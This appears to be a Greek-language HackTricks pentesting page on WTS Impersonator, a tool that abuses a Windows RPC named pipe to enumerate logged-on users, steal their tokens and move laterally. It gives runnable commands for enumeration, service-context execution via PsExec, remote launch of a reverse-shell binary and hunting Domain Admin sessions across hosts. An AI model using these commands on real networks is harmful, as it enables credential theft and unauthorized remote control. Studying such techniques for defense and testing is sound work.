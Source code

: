 {{#include ../../banners/hacktricks-training.md}}

Το εργαλείο **WTS Impersonator** εκμεταλλεύεται το **"\\pipe\LSM_API_service"** RPC Named pipe για να καταγράψει κρυφά τους συνδεδεμένους χρήστες και να κλέψει τα tokens τους, παρακάμπτοντας τις παραδοσιακές τεχνικές Token Impersonation. Αυτή η προσέγγιση διευκολύνει τις ομαλές πλευρικές κινήσεις εντός των δικτύων. Η καινοτομία πίσω από αυτή την τεχνική αποδίδεται στον **Omri Baso, του οποίου το έργο είναι προσβάσιμο στο [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Κύρια Λειτουργικότητα

Το εργαλείο λειτουργεί μέσω μιας ακολουθίας κλήσεων API:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Κύρια Μodule και Χρήση

- **Καταμέτρηση Χρηστών**: Η τοπική και απομακρυσμένη καταμέτρηση χρηστών είναι δυνατή με το εργαλείο, χρησιμοποιώντας εντολές για κάθε σενάριο:

- Τοπικά:
```powershell
.\WTSImpersonator.exe -m enum
```
- Απομακρυσμένα, καθορίζοντας μια διεύθυνση IP ή όνομα υπολογιστή:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Εκτέλεση Εντολών**: Τα modules `exec` και `exec-remote` απαιτούν ένα **Service** context για να λειτουργήσουν. Η τοπική εκτέλεση χρειάζεται απλώς το εκτελέσιμο WTSImpersonator και μια εντολή:

- Παράδειγμα για τοπική εκτέλεση εντολής:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe μπορεί να χρησιμοποιηθεί για να αποκτήσει ένα service context:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Απομακρυσμένη Εκτέλεση Εντολών**: Περιλαμβάνει τη δημιουργία και εγκατάσταση μιας υπηρεσίας απομακρυσμένα, παρόμοια με το PsExec.exe, επιτρέποντας την εκτέλεση με κατάλληλες άδειες.

- Παράδειγμα απομακρυσμένης εκτέλεσης:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Module Εξακρίβωσης Χρηστών**: Στοχεύει συγκεκριμένους χρήστες σε πολλές μηχανές, εκτελώντας κώδικα με τα διαπιστευτήριά τους. Αυτό είναι ιδιαίτερα χρήσιμο για την στόχευση Domain Admins με τοπικά δικαιώματα διαχειριστή σε αρκετά συστήματα.
- Παράδειγμα χρήσης:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
